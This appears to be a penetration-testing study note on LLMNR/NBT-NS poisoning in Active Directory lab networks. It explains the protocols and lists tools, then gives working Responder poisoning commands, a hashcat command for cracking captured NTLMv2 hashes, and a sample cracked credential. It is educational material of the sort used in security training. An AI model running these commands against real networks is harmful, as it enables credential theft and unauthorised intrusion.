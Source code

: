 # LLMNR/NBT-NS Poisoning (from Linux)

This section covers a common technique for gaining an initial foothold in an AD environment: Man-in-the-Middle attacks on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts. The goal is to capture password hashes or cleartext credentials for domain user accounts.

---

## LLMNR & NBT-NS Primer
- **LLMNR (UDP 5355):** DNS-like protocol for local name resolution when DNS fails.
- **NBT-NS (UDP 137):** NetBIOS-based name resolution for local networks.
- If DNS fails, Windows will broadcast LLMNR/NBT-NS requests to the local network. Any host can reply, making poisoning possible.

### Attack Flow (Visual)
```mermaid
sequenceDiagram
    participant Victim
    participant Attacker
    participant DNS
    Victim->>DNS: Query for printer01.inlanefreight.local
    DNS-->>Victim: Host unknown
    Victim->>Network: LLMNR/NBT-NS broadcast (Who is printer01?)
    Attacker-->>Victim: I am printer01!
    Victim->>Attacker: Sends authentication (NTLMv2 hash)
    Attacker-->>Attacker: Captures hash for offline cracking or relay
```

---

## Tools for LLMNR/NBT-NS Poisoning
| Tool       | Description                                                                 |
|------------|-----------------------------------------------------------------------------|
| Responder  | Python tool for LLMNR, NBT-NS, MDNS poisoning and credential capture.       |
| Inveigh    | Cross-platform MITM tool for spoofing/poisoning (C#/PowerShell).            |
| Metasploit | Has modules for LLMNR/NBT-NS poisoning and credential capture.              |

---

## Using Responder
Responder is the most common tool for this attack. It can run in passive (analyze) or active (poison) mode.

### Common Responder Options
- `-A` : Analyze mode (listen only, no poisoning)
- `-I <iface>` : Network interface to use
- `-w` : Start WPAD rogue proxy server
- `-f` : Fingerprint hosts
- `-v` : Verbose output

### Example: Start Responder in Poisoning Mode
```bash
sudo responder -I ens224
```

### Example: Start Responder in Analyze Mode
```bash
sudo responder -I ens224 -A
```

Responder will print captured hashes to the console and save them in `/usr/share/responder/logs/`.

---

## Ports to Monitor/Poison
- UDP 137, 138, 53, 5355, 5353
- TCP 80, 135, 139, 445, 1433, 21, 25, 110, 587, 3128, 3141, 389

---

## Example: Captured Hashes
Responder saves hashes in files like `SMB-NTLMv2-SSP-<IP>.txt`.

---

## Cracking Captured Hashes
Captured NTLMv2 hashes can be cracked offline with Hashcat or John.

### Example: Crack NTLMv2 Hash with Hashcat
```bash
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt
```

**Sample Output:**
```
FOREND::INLANEFREIGHT:4af70a79938ddf8a:...:Klmcargo2
Status...........: Cracked
Hash.Name........: NetNTLMv2
Recovered........: 1/1 (100.00%) Digests
```

---

## Key Points
- LLMNR/NBT-NS poisoning is a powerful way to capture credentials in AD environments.
- Use Responder or Inveigh to listen and poison requests.
- Captured hashes can be cracked offline for cleartext passwords.
- Always run with proper scope and permissions.

---

This technique is often the first step in gaining a foothold for further enumeration and attacks in an AD environment. 
